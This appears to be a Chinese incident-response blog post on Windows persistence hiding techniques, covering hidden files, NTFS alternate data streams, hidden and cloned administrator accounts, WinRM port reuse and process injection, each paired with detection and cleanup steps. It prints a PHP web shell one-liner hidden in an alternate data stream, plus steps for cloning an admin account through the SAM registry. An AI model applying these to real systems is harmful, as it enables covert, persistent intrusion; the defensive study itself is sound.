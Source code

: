 ```yaml
---
title: 第03章：权限维持篇第1篇：Windows权限维持--隐藏篇
date: '2024-06-13 13:10'
categories: 渗透测试
tags: 应急响应
cover: 'https://gitee.com/eviden/img/raw/master/33591dfae30e46459108dc785e1217a9.png'
description: 学习应急响应咯!
abbrlink: 143d02f0
---
```


### 0x00 前言

攻击者在获取服务器权限后，通常会用一些后门来维持权限，如果你想让你的后门保持的更久些，那么请隐藏好它，使之不易被管理员发现。

### 0x01 隐藏文件

**1、利用文件属性**

最简单的一种隐藏文件的方式，文件右键属性，勾选隐藏，点击确定后，在这个文件里看不到刚刚的文件了。

![](https://gitee.com/eviden/img/raw/master/privilege-1-1.png)

如果要让文件显示出来，就点击查看，勾选显示隐藏的文件，文件就显示出来。

![](https://gitee.com/eviden/img/raw/master/privilege-1-2.png)

如何真正隐藏文件？

使用Attrib +s +a +h +r命令就是把原本的文件夹增加了系统文件属性、存档文件属性、只读文件属性和隐藏文件属性。

`attrib +s +a +h +r  D:\test\project\test`.txt

这样就做到了真正的隐藏，不管你是否显示隐藏文件，此文件夹都看不见。

破解隐藏文件：

打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文件、文件夹和驱动器”。

![](https://gitee.com/eviden/img/raw/master/privilege-1-3.png)

**2、利用ADS隐藏文件内容**

​	在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞： 　

```
echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
```

这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。　

```
问题1：如何查看index.php:hidden.jpg内容呢？

　　	进入文件所在目录，notepad index.php:hidden.jpg    或者 dir /r
　　	
问题2：如何删除index.php:hidden.jpg？

     直接删除index.php即可
```

**3、驱动级文件隐藏**

驱动隐藏我们可以用过一些软件来实现，软件名字叫：Easy File Locker      

下载链接： http://www.xoslab.com/efl.html

如果你在网站目录未查找到相关文件，且系统目录存在存在以下文件：

```
c:\WINDOWS\xlkfs.dat
c:\WINDOWS\xlkfs.dll
c:\WINDOWS\xlkfs.ini
c:\WINDOWS\system32\drivers\xlkfs.sys
```

那么你，应该是遭遇了驱动级文件隐藏。

如何清除？

~~~
1、查询服务状态： sc qc xlkfs
2、停止服务： net stop xlkfs 服务停止以后，经驱动级隐藏的文件即可显现
3、删除服务： sc delete xlkfs
4、删除系统目录下面的文件，重启系统，确认服务已经被清理了。
~~~

隐藏文件的方式还有很多，比如伪装成一个系统文件夹图标，利用畸形文件名、保留文件名无法删除，甚至取一个与系统文件很像的文件名并放在正常目录里面，很难辨别出来。

这些隐藏文件的方式早已不再是秘密，而更多的恶意程序开始实现“无文件”攻击，这种方式极难被发现。

### 0x02 隐藏账号

window 隐藏系统用户操作，CMD命令行下，建立了一个用户名为“test$”，密码为“abc123!”的简单隐藏账户,并且把该隐藏账户提升为了管理员权限。

![](https://gitee.com/eviden/img/raw/master/privilege-1-4.png)

PS:CMD命令行使用"net user",看不到"test$"这个账号，但在控制面板和本地用户和组是可以显示此用户的。

克隆账号制作过程：

1、“开始”→“运行”，输入“regedt32.exe”后回车,需要到“HKEY_LOCAL_MACHINE\SAM\SAM”，单机右建权限，把名叫：administrator的用户给予：完全控制以及读取的权限，在后面打勾就行，然后关闭注册表编辑器，再次打开即可。

![](https://gitee.com/eviden/img/raw/master/privilege-1-5.png)

2、来到注册表编辑器的“HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names”处，点击test$用户，得到在右边显示的键值中的“类型”一项显示为0x3ec，找到箭头所指目录。

![](https://gitee.com/eviden/img/raw/master/privilege-1-6.png)

3、找到administrator所对应的的项为“000001F4”，将“000001F4”的F值复制到“000003EC”的F值中，保存。

![](https://gitee.com/eviden/img/raw/master/privilege-1-7.png)

4、分别test$和“000003EC导出到桌面，删除test$用户   net user test$ /del

![](https://gitee.com/eviden/img/raw/master/privilege-1-8.png)

5、将刚才导出的两个后缀为.reg的注册表项导入注册表中。这样所谓的隐藏账户就创建好了。PS：不管你是在命令提示符下输入net user 或者在系统用户管理界面都是看不到test$这个账户的，只有在注册表中才能看得到。

检测和清理方法：

使用D盾_web查杀工具，使用克隆账号检测功能进行查看，可检测出隐藏、克隆账号。

![](https://gitee.com/eviden/img/raw/master/privilege-1-9.png)

### 0x03 端口复用

通过端口复用来达到隐藏端口的目的，在Window下，如何实现端口复用呢？

前阵子，@Twi1ight公布了一种基于内置系统服务的端口复用后门方法，利用WinRM服务，一条命令实现端口复用后门：

`winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}`

一般开启WinRM服务作为远程管理，但还是第一次听到可以作为端口复用，一种简单容易实现的端口复用方式。假设，攻击者已获取到administrator账号密码，连接远程WinRM服务执行命令：

![](https://gitee.com/eviden/img/raw/master/privilege-1-19.png)

当执行这条命令的同时，将在安全日志中留下痕迹，

![](https://gitee.com/eviden/img/raw/master/privilege-1-20.png)

另外，可以通过代码实现端口复用重定向，工具：https://github.com/crabkun/Switcher

### 0x04 进程注入

进程注入，一直是病毒木马的惯用手段，同时，它也是一种隐藏技术。在常见的渗透测试框架中，进程注入是怎么做的以及我们如何通过工具排查出来？

**1、meterpreter会话注入**

当前权限无法获取hash值，查看目前系统进程

![](https://gitee.com/eviden/img/raw/master/privilege-1-10.png)

通过migrate将进程注入到system进程后，成功获得hash值。

![](./image/privilege-1-11.png)

Window后门排查：

通过TCPview显示已建立的TCP连接，我们可以看到异常的连接，同时，恶意软件将以绿色显示不到一秒钟，然后变成红色消失，如此循环。 

![](https://gitee.com/eviden/img/raw/master/privilege-1-12.png)

**2、Empire会话进程注入**

通过psinject模块进行会话注入，直接输入ps选择一个SYSTEM权限的进程PID，使用进程注入模块，来获取权限。如下图：

![](https://gitee.com/eviden/img/raw/master/privilege-1-13.png)

Window后门排查：利用process monitor或者火绒剑监控进程都可以定位到注入进程。

![](https://gitee.com/eviden/img/raw/master/privilege-1-14.png)

![](./image/privilege-1-15.png)

**3、Cobalt Strike进程注入**

选择进程，点击inject，随后选择监听器，点击choose，即可发现Cobaltstrike弹回了目标机的一个新会话，这个会话就是成功注入到某进程的beacon。

![](https://gitee.com/eviden/img/raw/master/privilege-1-16.png)

![](https://gitee.com/eviden/img/raw/master/privilege-1-17.png)

Window后门排查：利用process monitor捕捉通信过程，有规律的请求取决于sleep设置的间隔。

![](https://gitee.com/eviden/img/raw/master/privilege-1-18.png)

### 0x05  结束

本文主要介绍了Window下的几种隐藏技术，包括隐藏文件、隐藏账号、端口复用、进程注入等方面的简单实现及其排查技巧。仅作抛砖引玉之用，欢迎留言分享。



